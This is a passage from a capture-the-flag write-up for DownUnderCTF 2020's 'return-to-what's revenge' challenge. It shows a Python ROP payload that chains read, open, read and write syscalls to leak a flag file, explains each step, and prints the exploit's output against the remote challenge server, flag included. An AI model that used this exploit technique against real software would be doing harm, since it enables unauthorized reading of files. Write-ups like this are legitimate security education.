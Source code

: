 ```python
flagfile = '/chal/flag.txt'
filesize = 100 # guess?

fd = 3
payload  = 0x38 * b'A'
payload += syscall(constants.SYS_read.real,constants.STDIN_FILENO.real,binary.bss()+0x30,len(flagfile))
payload += syscall(constants.SYS_open.real,binary.bss()+0x30,0,0)
payload += syscall(constants.SYS_read.real,fd,binary.bss()+0x40,filesize)
payload += syscall(constants.SYS_write.real,constants.STDOUT_FILENO.real,binary.bss()+0x40,filesize)

p.sendlineafter('Where would you like to return to?\n',payload)
p.send(flagfile)
log.info(p.recv(filesize).split(b'\n')[0])
```

After the same `0x38` padding used in the last two ([_Shell this!_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/shellthis) and [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what)), four syscalls will liberate the flag:

1. Read the name of the file from stdin and store 0x30 bytes from the start of the BSS.  This saves us the hassle of using brk, et al and having to deal with RAX.  The first 0x30 bytes of the BSS is used for stdin/stdout/stderr hence the `+0x30`.  The BSS isn't huge, but huge enough for a flag.
2. Open the file by name.
3. Read the file contents into `BSS+0x40`.  Notice that `fd` is hardcoded to `3` and it should always be `3` (well, not _always_).  `RAX` has the value of `fd` after the `open` syscall, but then it'd be more work to get it.  `3` is a safe guess and works (it usually does for these type of challenges).
4. Write the file contents to stdout.  The filesize is a guess, the assumption is that the flag is not 100 characters in length.  `RAX` after the file read contains the length of the file, but again, let's be lazy.

After crafting this rather large payload, just send; the payload will execute and wait for the name of the flag file to be sent.  After that, the flag is written to stdout.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2020/return_to_whats_revenge/return-to-whats-revenge_noalarm'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.duc.tf on port 30006: Done
[*] Loaded 14 cached gadgets for './return-to-whats-revenge_noalarm'
[*] puts: 0x7fc23c2a49c0
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1_amd64.so
[*] '/pwd/datajerk/downunderctf2020/return_to_whats_revenge/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fc23c224000
[*] Loaded 196 cached gadgets for 'libc6_2.27-3ubuntu1_amd64.so'
[*] b'DUCTF{secc0mp_noT_$tronk_eno0Gh!!@}'
```